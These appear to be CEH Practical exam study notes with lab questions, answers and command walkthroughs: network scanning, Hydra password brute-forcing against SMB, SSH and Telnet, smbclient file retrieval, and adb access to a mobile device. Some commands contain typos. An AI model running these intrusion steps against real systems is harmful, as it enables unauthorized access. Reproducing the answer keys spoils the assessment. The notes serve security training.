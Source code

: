 Step-1 in exam when login sudo arp-scan -local or netdiscover -i 10.10.1.0 or nmap -sn ip/24 https://github.com/dhabaleshwar/CEHPractical/tree/main https://github.com/cmuppin/CEH 1.Perform extensive scan of the target network and identify the FQDN of the Domain Controller. Answer: AdminTeam.ECCCEH.com
1. nmap -p389 -sV 10.10.1.13/24
2. Go to 10.10.1.22 server and login and go to this pc then right click and go down click on rename this pc advanced.
2.While investigating an attack, you found that a Windows web development environment was exploited to gain access to the system. Perform extensive scanning and service enumeration of the target networks and identify the IP address of the server running WampServer.
Answer: 172.20.0.16
1. namp -sV -A -p 80 10.10.1.13/24
3.Identify a machine with SMB service enabled in the 192.168.0.0/24 subnet. Crack the SMB credentials for user Henry and obtain Sniff.txt file containing an encoded secret. Decrypt the encoded secret and enter the decrypted text as the answer. Note: Use Henry's password to decode the text.
Answer: nvkwj2387
1. Scan the entire subnet for open smb ports. You can use the wordlist available on the desktop on Parrot os. Use Hydra to crack it. The password for the encoded file is the same. If the file contains a hash, try to decode it.
2. sudo nmap -T4 -Ss -p 139,445 - -script vuln 192.168.0.0/24
3. hydra-l henry -P /home/passlist.txt 192.168.0.1 smb
4. smbclient //192.168.0.1/share
5. smbclient -L 192.168.0.1
6. type password and ls
7. get sniff.txt ~/Desktop/falg2.txt or more sniff.txt
8. cat falg2.txt
9. now encrypt the text using the same henry login password in bctextencoder.exe manual open
    
4.An insider attack has been identified in one of the employees’ mobile devices in 192.168.0.0/24 subnet. You are assigned to covertly access the user’s device and obtain malicious elf files stored in a folder "Scan". Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value.
Answer: 7aea
1. sudo nmap -p 5555 192.168.0.0/24
2. adb connect 192.168.0.14:5555
3. adb shell
4. ls and cd sdcard and ls and pwd
5. adb pull /sdcard/scan/ or adb pull /sdcard/scan attacker/home/
6. ls and cd scan and ls
7. ent -h or apt install ent
8. ent evil.elf
9. ent evil2.elf
10. ent evil3.elf
11. sha384sum evil.elf
12. then you get one hash value type last 4 characters.
5.Perform a vulnerability scan for the host with IP address 172.20.0.16. What is the severity score of a vulnerability that indicates the End of Life of a web development language platform?
Answer: 10
1. nmap -Pn - -script vuln 172.20.0.16
2. now copy the CVE number which is vulnerable paste in goggle and see the value.
3. Most of the time “10”.
example CVE-2006-3392 https://www.cvedetails.com/cve/CVE-2006-3392/
6.Exploit a remote login and command-line execution application on a Linux target in the 192.168.0.0/24 subnet to
access a sensitive file, NetworkPass.txt. Enter the content in the file as answer.
Answer: F56C8p@
1. Use Hydra to break the password Telnet, login and access the file, and enter the flag.
2. Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server Task-7
3. Nmap -p 22,23,80,3389 192.168.0.0/24
4. sudo nmap -sS -sV -p- -O ipadd
5. telnet 192.168.0.19 80 and GET / HTTP/1.0
6. hydra -L user.txt -P pass.txt 192.168.0.1 ssh
7. hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.106 telnet
8. ssh ubuntu@192.168.0.1